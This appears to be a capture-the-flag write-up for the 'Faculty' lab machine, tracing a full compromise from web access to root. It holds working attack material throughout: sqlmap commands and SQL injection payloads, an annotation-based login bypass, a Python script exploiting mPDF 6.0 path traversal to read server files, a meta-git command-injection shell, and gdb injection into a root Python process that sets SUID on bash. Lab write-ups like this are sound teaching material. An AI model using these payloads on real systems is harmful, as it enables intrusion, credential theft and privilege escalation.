

Exploitation Summary
Exploitation process: The target machine was running a School Faculty Scheduling System on port 80. After discovering multiple login endpoints through web enumeration, I identified a boolean-based blind SQL injection vulnerability in the email parameter of the signup action, allowing me to extract database credentials and user information using sqlmap.
Using the extracted faculty ID numbers, I gained authenticated access to the admin panel, where I discovered that the application used mPDF 6.0 to generate PDF files. By exploiting a path traversal vulnerability (CVE-2014-2383) in mPDF through annotation tags, I was able to read arbitrary files from the server, including db_connect.php, which contained database credentials that were reused for SSH access as user gbyolo.
Privilege escalation to developer was achieved by exploiting a command injection vulnerability in the meta-git Node.js library, which gbyolo could execute via sudo. Finally, I escalated to root by abusing the cap_sys_ptrace+ep capability on the gdb binary, which allowed me to attach to a root-owned Python process and inject arbitrary system commands, ultimately setting the SUID bit on /bin/bash.
Technologies/Exploits: Boolean-based blind SQL injection, mPDF 6.0 path traversal (annotation file inclusion), meta-git command injection RCE, Linux capabilities abuse (cap_sys_ptrace), GDB process injection.
Initial Reconnaissance
I begin with an nmap scan to identify open ports and services:

The scan reveals SSH on port 22 and an HTTP server on port 80. I add faculty.htb to my /etc/hosts file for easier access.
Web Enumeration
Upon accessing the web application, I'm immediately redirected to login.php. Running whatweb provides some initial information about the stack:
http://faculty.htb [302 Found] Bootstrap, Cookies[PHPSESSID], Country[RESERVED][ZZ],
HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.11.169], JQuery,
RedirectLocation[login.php], Script[text/javascript],
Title[School Faculty Scheduling System], nginx[1.18.0]
http://faculty.htb/login.php [200 OK] Bootstrap, Country[RESERVED][ZZ], HTML5,
HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.11.169], JQuery, PHP,
Script[text/javascript], Title[School Faculty Scheduling System], nginx[1.18.0]The application appears to be a School Faculty Scheduling System running on nginx with PHP backend.
Directory Discovery
I perform directory enumeration and discover several interesting endpoints:
/login.php (Status: 200)
/index.php (Status: 200)
/header.php (Status: 200)
/admin (Status: 200)
/test.php (Status: 500)
/topbar.php (Status: 200)Under the /admin directory, I find additional endpoints:
/admin/login.php (Status: 200)
/admin/home.php (Status: 200)
/admin/index.php (Status: 200)
/admin/ajax.php (Status: 200)
/admin/download.php (Status: 200)
/admin/users.php (Status: 200)
/admin/faculty.php (Status: 200)
/admin/courses.php (Status: 200)
/admin/subjects.php (Status: 200)The ajax.php endpoint is particularly interesting as it appears to handle various actions based on URL parameters.
SQL Injection Discovery
Testing the admin login by sending a POST request without credentials reveals error messages that expose the backend code structure:
curl -X POST http://faculty.htb/admin/ajax.php?action=loginNotice: Undefined variable: username in /var/www/scheduling/admin/admin_class.php on line 21
Notice: Undefined variable: password in /var/www/scheduling/admin/admin_class.php on line 21
3This error disclosure indicates potential vulnerabilities. I use ffuf to fuzz the action parameter and discover several action endpoints:
login [Status: 200, Size: 257]
signup [Status: 200, Size: 913]
login2 [Status: 200, Size: 661]
login_faculty [Status: 200]Identifying the Injection Point
Testing the login_faculty action with a single quote reveals SQL syntax errors:
curl -X POST "http://faculty.htb/admin/ajax.php?action=login_faculty" -d "id_no=asd'"Notice: Trying to get property 'num_rows' of non-object in
/var/www/scheduling/admin/admin_class.php on line 43
3Similarly, testing the signup action reveals that the email parameter is vulnerable to SQL injection:
curl -X POST "http://faculty.htb/admin/ajax.php?action=signup" \
-d "firstname=asd&lastname=xd&email=asd@asd.com' OR 1=1 -- a&password=asd"The successful response (return code 2 without errors) confirms the SQL injection vulnerability.
Automated SQL Injection with SQLMap
Since this is a boolean-based blind SQL injection, manual exploitation would be extremely time-consuming. I use sqlmap to automate the data extraction:
sqlmap -u "http://faculty.htb/admin/ajax.php?action=signup" \
--data "firstname=asd&lastname=xd&email=asd@asd.com&password=asd" \
-p email \
--batch \
--dbsSQLMap confirms the injection and identifies it as a boolean-based blind and time-based blind injection:
Parameter: email (POST)
Type: boolean-based blind
Title: AND boolean-based blind - WHERE or HAVING clause
Payload: firstname=asd&lastname=xd&email=asd@asd.com' AND 2982=2982 AND 'XlGZ'='XlGZ&password=asd
Type: time-based blind
Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
Payload: firstname=asd&lastname=xd&email=asd@asd.com' AND (SELECT 8055 FROM (SELECT(SLEEP(5)))KTnc)
AND 'UKhI'='UKhI&password=asdThe tool discovers two databases:
available databases [2]:
[*] information_schema
[*] scheduling_dbExtracting Database Contents
I enumerate the scheduling_db database structure using multiple threads to speed up the process:
sqlmap -u "http://faculty.htb/admin/ajax.php?action=signup" \
--data "firstname=asd&lastname=xd&email=asd@asd.com&password=asd" \
-p email \
--batch \
-D scheduling_db --tables --threads=10The most interesting tables are users and faculty. From the users table, I extract:
+----+---------------+------+----------------------------------+----------+
| id | name | type | password | username |
+----+---------------+------+----------------------------------+----------+
| 1 | Administrator | 1 | 1fecbe762af147c1176a0fc2c722a345 | admin |
+----+---------------+------+----------------------------------+----------+From the faculty table, I extract ID numbers and email addresses:
+----+----------+--------------------+--------+----------+-----------+
| id | id_no | email | gender | lastname | firstname |
+----+----------+--------------------+--------+----------+-----------+
| 1 | 63033226 | jsmith@faculty.htb | Male | Smith | John |
| 2 | 85662050 | cblake@faculty.htb | Female | Blake | Claire |
| 3 | 30903070 | ejames@faculty.htb | Male | James | Eric |
+----+----------+--------------------+--------+----------+-----------+Accessing the Admin Panel
Using the SQL injection vulnerability in the admin login form at /admin/login.php, I bypass authentication by injecting a payload that always returns true:
username=admin' OR 1=1 -- -&password=anythingThis grants me access to the administrative dashboard where I can manage users, courses, subjects, and schedules.
mPDF Path Traversal Exploitation
Within the admin panel, I discover a feature that generates PDF reports for users, courses, and subjects. After generating a PDF, the application redirects to a URL like:
http://faculty.htb/mpdf/tmp/OKNbfJXeKoB0kPqTWEQdx1FG6u.pdfInspecting the PDF metadata in the browser console reveals version information:
PDF 201248ef05d65e5b98fba972750dec2a [1.4 mPDF 6.0 / -] (PDF.js: 5.2.183 [3f1ecc1ba])The application uses mPDF 6.0, which is vulnerable to a path traversal attack through annotation tags. I find a proof-of-concept exploit at https://www.exploit-db.com/exploits/50995.
Understanding the mPDF Vulnerability
The vulnerability allows an attacker to include arbitrary files from the server filesystem by crafting a malicious annotation tag in the HTML that gets converted to PDF. The annotation's file attribute can reference local files using path traversal sequences.
Crafting the Exploit
I modify the exploit to work with this specific application. The exploit logic is:
from urllib.parse import quote
from base64 import b64encode
import requests
import os
fname = "/etc/passwd" # Target file to read
payload = f'<annotation file="{fname}" content="{fname}" icon="Graph" title="Attached File: {fname}" pos-x="195" />'
encoded_payload = quote(payload)
base64enc = b64encode(encoded_payload.encode())
posturl = "http://faculty.htb/admin/download.php"
data = {"pdf": base64enc}
postresponse = requests.post(posturl, data=data)
pdf_filename = postresponse.text
os.system(f"curl -o xd.pdf http://faculty.htb/mpdf/tmp/{pdf_filename}")
os.system("pdfdetach -list xd.pdf")
os.system("pdfdetach -save 1 -o file.txt xd.pdf")
os.system("cat file.txt")
os.system("rm xd.pdf file.txt")This script:
- Creates a malicious annotation tag pointing to the target file
- URL-encodes and base64-encodes the payload
- POSTs it to the
download.phpendpoint - Downloads the generated PDF
- Extracts the attached file from the PDF using
pdfdetach - Displays the file contents
Reading Sensitive Files
Using this technique, I can read arbitrary files from the server. I discover that besides root, there are two users with bash shells:
gbyolo:x:1000:1000:gbyolo:/home/gbyolo:/bin/bash
developer:x:1001:1002:,,,:/home/developer:/bin/bashI target the application's database configuration file at /var/www/scheduling/admin/db_connect.php and successfully extract it:
$conn = new mysqli('localhost','sched','Co.met06aci.dly53ro.per','scheduling_db')This reveals database credentials: sched:Co.met06aci.dly53ro.per
SSH Access as gbyolo
Testing the database password against the discovered users, I find that it's reused for SSH access:
ssh gbyolo@faculty.htb
# Password: Co.met06aci.dly53ro.perI successfully gain SSH access as gbyolo and retrieve the user flag.
Post-Exploitation Enumeration
Upon logging in, I notice a mail notification. Checking the mail reveals:
Hi gbyolo, you can now manage git repositories belonging to the faculty group.
Please check and if you have troubles just let me know!
\ndeveloper@faculty.htbThis suggests that gbyolo has some git-related privileges. Checking sudo permissions confirms this:
sudo -lMatching Defaults entries for gbyolo on faculty:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User gbyolo may run the following commands on faculty:
(developer) /usr/local/bin/meta-gitI can execute /usr/local/bin/meta-git as the developer user. Investigating this binary:
file /usr/local/bin/meta-git/usr/local/bin/meta-git: symbolic link to ../lib/node_modules/meta-git/bin/meta-gitIt's a Node.js library for managing git repositories.
Privilege Escalation to Developer
meta-git Command Injection Vulnerability
Searching for vulnerabilities in meta-git, I find a HackerOne report (https://hackerone.com/reports/728040) detailing a command injection vulnerability in the clone command. The vulnerability allows arbitrary command execution through special characters in the repository name.
The proof-of-concept is straightforward:
meta-git clone 'sss||touch HACKED'Testing this confirms the vulnerability. To get a shell as developer, I navigate to /tmp (to avoid directory-related errors) and execute:
cd /tmp
sudo -u developer meta-git clone 'sss||bash'meta git cloning into 'sss||bash' at sss||bash
sss||bash:
fatal: repository 'sss' does not exist
bash: sss: No such file or directory
developer@faculty:/tmp$Despite the error messages, I successfully obtain a shell as developer:
iduid=1001(developer) gid=1002(developer) groups=1002(developer),1001(debug),1003(faculty)The developer user belongs to three groups: developer, debug, and faculty.
Privilege Escalation to Root
Investigating the debug Group
I search for files and binaries accessible to the debug group:
find / -group debug 2>/dev/null/usr/bin/gdbThe gdb debugger binary is owned by root but executable by the debug group:
ls -la /usr/bin/gdb-rwxr-x--- 1 root debug 8440200 Dec 8 2021 /usr/bin/gdbMore importantly, checking the capabilities of this binary reveals a critical privilege:
getcap /usr/bin/gdb/usr/bin/gdb = cap_sys_ptrace+epUnderstanding cap_sys_ptrace
The cap_sys_ptrace capability allows a process to trace and debug any process on the system, including those owned by root. This means I can use gdb to attach to a root-owned process and inject arbitrary code.
Finding a Suitable Target Process
I need to find a root process that I can reliably exploit. The ideal target would be a Python process that has already imported the os module, allowing me to execute system commands. I search for such a process:
ps -faux | grep "^root" | grep pythonroot 691 0.0 0.9 26896 18068 ? Ss 00:11 0:00 /usr/bin/python3 /usr/bin/networkd-dispatcher
--run-startup-triggersThe networkd-dispatcher service runs as root with Python 3. Verifying that it imports the os module:
head -20 /usr/bin/networkd-dispatcher#!/usr/bin/python3
# networkd-dispatcher
(...)
import osPerfect! This process imports os, which means I can use gdb to call the system() function.
GDB Process Injection
I attach gdb to the target process (PID 691):
gdb -q -p 691Within gdb, I can now call system functions in the context of the root-owned process. First, I verify command execution:
(gdb) call (void)system("whoami > /tmp/test")[Detaching after vfork from child process 6305]Checking the output file:
cat /tmp/testrootExcellent! Commands are executing as root. Now I can escalate to root by setting the SUID bit on /bin/bash:
(gdb) call (void)system("chmod u+s /bin/bash")Exiting gdb and spawning a privileged bash shell:
bash -pwhoamirootI now have root access and can retrieve the root flag to complete the machine.